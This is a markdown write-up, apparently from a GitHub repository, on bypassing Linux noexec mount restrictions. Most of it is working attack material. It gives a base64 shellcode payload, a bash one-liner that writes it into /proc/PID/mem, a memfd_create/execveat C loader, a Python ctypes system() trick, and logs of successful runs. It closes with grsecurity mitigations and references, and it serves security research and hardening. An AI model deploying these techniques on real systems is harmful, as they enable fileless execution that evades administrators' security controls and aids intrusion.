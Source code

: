 ## noexec bypass

Userland execution without touching the disk has been existed in the hacking community for quite some time. The first paper on Userland exec was authored by the grugq in 2004. Since then, this technique has continuously evolved in various forms within the hacker community. A recent [write-up](https://iq.thc.org/bypassing-noexec-and-executing-arbitrary-binaries) by THC (The Hacker's Choice, an 0ldsk00l hacker community) "Bypassing noexec and executing arbitrary binaries" has taken this concept to a new level by simplifying the process of writing PoC/exploits that bypass partitions with the noexec flag. The root cause of this exploit vector lies in a change made to the Linux kernel in 2012, which [removed the restrictions on writing to /proc/PID/mem](https://lwn.net/Articles/476947/). THC's write-up provides a detailed explanation of how the [PoC](https://github.com/hackerschoice/memexec) work.

### Set up a RW partition with noexec flag
```
dd if=/dev/zero of=ro-partition.img bs=1M count=100
mkfs.ext4 ro-partition.img 
mkdir /mnt/ro-part
mount -o loop,noexec ro-partition.img /mnt/ro-part/
cd 
git clone https://github.com/hackerschoice/memexec.git
```
### Build the binary:
```
nasm -f elf64 -o memexec-bash-arg-env.o memexec-bash-arg-env.nasm && ld memexec-bash-arg-env.o
```

### Generate shellcode and encode it as base64:
```
ved@debian-vtest:/mnt/ro-part/memexec$ objdump -d a.out |grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-7 -d' ' | tr -s ' '|tr '\t' ' ' | sed 's/ //g' | xxd -r -p | base64 -w 0
SIngTTHSSIM4AHUQSIN4CCF1CUiD6AhJicLrBkiDwAjr5EyJ0E0x200x5EiDOAB1EEmJw0mD6whIg8AISYnE6wZIg+gI6+RMidhNMe1IMf9IixhIOft0JUiLC0iB4f///wBIgfktLQAAdQlJicZIiXj46wlIg+gISP/H69NIieVIgewSBAAASLhrZXJuZWwAAGoAULg/AQAASInnSDH2DwVJicC4AAAAAL8AAAAASInmugAEAAAPBUiJwkiD+gB+D7gBAAAATInHSInmDwXr1LhCAQAATInHagBIieZMifJIMclNMclNieJBuAAQAAAPBbg8AAAAv2MAAAAPBQ==
```

## Use the base64 code and run it on Bash:
```
ved@debian-vtest:/mnt/ro-part/memexec$ memexec() { bash -c 'cd /proc/$$;exec 4>mem;base64 -d<<<SIngTTHSSIM4AHUQSIN4CCF1CUiD6AhJicLrBkiDwAjr5EyJ0E0x200x5EiDOAB1EEmJw0mD6whIg8AISYnE6wZIg+gI6+RMidhNMe1IMf9IixhIOft0JUiLC0iB4f///wBIgfktLQAAdQlJicZIiXj46wlIg+gISP/H69NIieVIgewSBAAASLhrZXJuZWwAAGoAULg/AQAASInnSDH2DwVJicC4AAAAAL8AAAAASInmugAEAAAPBUiJwkiD+gB+D7gBAAAATInHSInmDwXr1LhCAQAATInHagBIieZMifJIMclNMclNieJBuAAQAAAPBbg8AAAAv2MAAAAPBQ==|dd bs=1 seek=$[$(cat syscall|cut -f9 -d" ")]>&4' "$@"; }
```

### Show time:
```
ved@debian-vtest:/mnt/ro-part/memexec$ cp /bin/id .
ved@debian-vtest:/mnt/ro-part/memexec$ ./id
-bash: ./id: Permission denied
ved@debian-vtest:/mnt/ro-part/memexec$ cat id |  memexec -- 
253+0 records in
253+0 records out
253 bytes copied, 0.000326824 s, 774 kB/s
uid=1000(ved) gid=1000(ved) groups=1000(ved),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
```

### C code based on help of decompilers
Base on the [output of decompilers](https://dogbolt.org/?id=47cc5eab-f919-4eea-a6f6-adabc90a1875#Hex-Rays=17). The C code is roughly look like:
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/mman.h>
#include <sys/syscall.h>
#include <fcntl.h>

#define BUFFER_SIZE 1024
char buffer2[BUFFER_SIZE] = {0};

int main(int argc, char *argv[], char *envp[]) {
    // Find the start of the stack
    char **env = envp;
    char **arg = argv;
    char *last_arg = NULL;
    char *first_env = NULL;

    // Find the last argument and the first environment variable
    while (*arg) {
        last_arg = *arg;
        arg++;
    }
    first_env = env[0];

    // Create a memory file descriptor
    int memfd = memfd_create("kernel", 0);

    if (memfd < 0) {
	    syscall(SYS_exit, EXIT_FAILURE);
	}

    // Create a buffer for reading input
    char *buffer = buffer2;
    if (!buffer) {
	    syscall(SYS_exit, EXIT_FAILURE);
    }

    ssize_t bytes_read;
    while ((bytes_read = syscall (SYS_read, STDIN_FILENO, buffer, BUFFER_SIZE)) > 0) {
        // Write data to the memory file descriptor
        if ( syscall(SYS_write, memfd, buffer, bytes_read) != bytes_read) {
        	syscall(SYS_exit, EXIT_FAILURE);
        }
    }

    if (bytes_read < 0) {
	    syscall(SYS_exit, EXIT_FAILURE);
    }

    // Prepare to execveat the program in memfd
    char *empty_path = ""; // AT_EMPTY_PATH
    char **new_argv = argv; // Use the original argv
    char **new_envp = envp; // Use the original envp

    // Execute the program in the memory file descriptor
    syscall (SYS_execveat, memfd, empty_path, new_argv, new_envp, 0);

    // If execveat fails
     syscall(SYS_exit, EXIT_FAILURE);
}
```
## Mitigation
PaX/GRsecurity is the only solution against this bypass technique. The vanilla Linux kernel may have the solution in the future.

| Exploit method | Mitigation |
|:-------------:|:-----------------------:|
| Overwrite /proc/*/mem | PaX/GRsecurity enabled /proc/*/mem restriction since the beginning (2012?) |
| memfd_* execution | 1) PaX/GRsecurity RBAC (doesn't require any policy) treat it as SHM_EXEC 2) PaX/GRsecurity TPE |

Prevention log:
```
Oct 31 15:50:37 newdevel kernel: [272707.761418] grsec: denied untrusted exec (due to not being in trusted group and file in non-root-owned directory) of / by /[perl:9099] uid/euid:1000/1000 gid/egid:1000/1000, parent /bin/bash[bash:9075] uid/euid:1000/1000 gid/egid:1000/1000
```
## Extra bonus from the legacy of 0ldsk00l hackers
Let's say THC's approach as suitable for binary/backdoor execution. There's another [intriguing method](https://web.archive.org/web/20100720104659/http://dp.grhack.net/2009/09/17/python-in-noexec-land/) for bypassing the noexec restriction that primarily benefits exploit writers (s0rry, pentesters! This is not for you). GRHack introduced a technique to circumvent noexec by leveraging a feature in Python called Foreign Function Interface (FFI). This feature enables Python developers to directly invoke any C function from a shared object. You can bypass the noexec limitation by porting the exploit to Python. It's important to note that this approach specifically affects GNU/Linux systems, as [OpenBSD does not allow the loading of shared objects in noexec partitions](https://github.com/huku-/research/wiki/Sandboxing-and-isolation#212-mount-options). The PoC (run-ls.py) is simple as:

```
import ctypes

libc = ctypes.CDLL('libc.so.6')

system = libc.system
system.argtypes = [ctypes.c_char_p]
system.restype = ctypes.c_int

command = b"ls -l"
result = system(command)

print("Return code:", result)
```

Test the PoC in noexec partition:
```
ved@debian-vtest:/mnt/ro-part/memexec$ python3 run-ls.py 
total 208
-rwxr-xr-x 1 ved ved   5416 Oct 31 12:42 a.out
-rw-r--r-- 1 ved ved  43808 Oct 31 12:45 id
-rwxr-xr-x 1 ved ved 138856 Oct 28 19:36 ls
-rw-r--r-- 1 ved ved   3611 Oct 28 19:33 memexec-bash-arg-env.nasm
-rw-r--r-- 1 ved ved   1216 Oct 31 12:42 memexec-bash-arg-env.o
-rw-r--r-- 1 ved ved   1744 Oct 28 19:33 memexec-bash.nasm
-rw-r--r-- 1 ved ved    544 Oct 28 19:33 memexec-bash.sh
-rw-r--r-- 1 ved ved   1481 Oct 28 19:33 memexec.nasm
-rw-r--r-- 1 ved ved    736 Oct 28 19:39 memexec.o
-rw-r--r-- 1 ved ved    192 Oct 28 19:33 memexec-perl.sh
-rw-r--r-- 1 ved ved   1671 Oct 28 19:33 memexec.php
-rw-r--r-- 1 ved ved   1696 Oct 28 19:44 memexec-shell.c
-rw-r--r-- 1 ved ved   3963 Oct 28 19:33 README.md
-rw-r--r-- 1 ved ved    211 Nov  3 23:07 run-ls.py
-rw-r--r-- 1 ved ved    340 Oct 30 17:20 shellcode_base64.txt
-rw-r--r-- 1 ved ved    736 Oct 30 16:43 test.o
-rw-r--r-- 1 ved ved   1442 Oct 30 16:43 test.s
Return code: 0
```

## Reference
* Bypassing noexec and executing arbitrary binaries https://iq.thc.org/bypassing-noexec-and-executing-arbitrary-binaries
* A /proc/PID/mem vulnerability https://lwn.net/Articles/476947/
* Execute ELF files without dropping them on disk https://github.com/nnsee/fileless-elf-exec
* userland exec for Linux x86_64 https://github.com/bediger4000/userlandexec
* The Design and Implementation of Userland Exec https://grugq.github.io/docs/ul_exec.txt
* Python in noexec-land https://web.archive.org/web/20100720104659/http://dp.grhack.net/2009/09/17/python-in-noexec-land/
